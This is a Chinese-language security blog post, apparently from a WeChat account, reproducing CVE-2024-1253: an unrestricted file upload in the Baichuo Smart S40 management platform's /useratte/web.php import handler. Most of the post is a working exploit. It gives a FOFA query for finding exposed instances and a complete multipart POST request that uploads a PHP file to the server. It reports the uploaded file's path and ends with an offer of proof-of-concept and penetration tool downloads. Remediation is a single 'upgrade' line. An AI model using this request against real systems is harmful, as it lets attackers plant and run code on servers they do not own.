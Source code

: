 #  CVE-2024-1253   
原创 fgz  AI与网安   2024-02-09 06:00  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
北京百绰智能S40管理平台导入web.php无限制上传  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
北京百绰智能S40管理平台20240126版本。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPZg8Tx7kjFeAzx1xlFqGFsOGFkWMXj8QgsNlxXwR1z6L019IvGicic5nEGlPuQQBu8beUibq3hdlCnw/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞描述  
  
  
北京百绰智能S40管理平台20240126版本存在一种关键漏洞。该漏洞影响了组件Import Handler的/useratte/web.php文件的某些未知功能。通过对参数file_upload的操纵可导致未受限的上传。攻击可能会远程启动。该漏洞的利用已经公开并可能被利用。  
  
  
漏洞成因分析：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPZg8Tx7kjFeAzx1xlFqGFsPaTT0W7lWXI1KtTVeoUmloH7f9IYbOC4BmmWQkibuABDKibibGiby2C2Rw/640?wx_fmt=png&from=appmsg "")  
  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
title="Smart管理平台"
```  
  
  
  
05  
  
—  
  
漏洞复现  
  
  
文件上传数据包：  
```
POST /useratte/web.php? HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=cb5c0eb7b9fabee76431aaebfadae6db
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Origin: https://ip:port
Referer: https://ip:port/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPZg8Tx7kjFeAzx1xlFqGFsZGehib1uKL2NdFBqnIKddLlamnAU7bjKWAhBD6y29cNqEafTpRYuFjA/640?wx_fmt=png&from=appmsg "")  
  
  
回显文件路径  
/upload/2.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPZg8Tx7kjFeAzx1xlFqGFsl372hGSaFmicyFcPg59Sic3sy2Enzg3RqWKOxHMibAvwQ4Kormgb42rqA/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
07  
  
—  
  
资料领取  
  
  
新  
关注的朋友可以在后台发送关键字苗费获取下列资料：  
  
后台发送【  
电子书】关键字获取学习资料网盘地址  
  
  
后台发送【  
POC】关键字获取POC网盘地址  
  
  
后台发送【  
工具】获取渗透工具包  
  
  
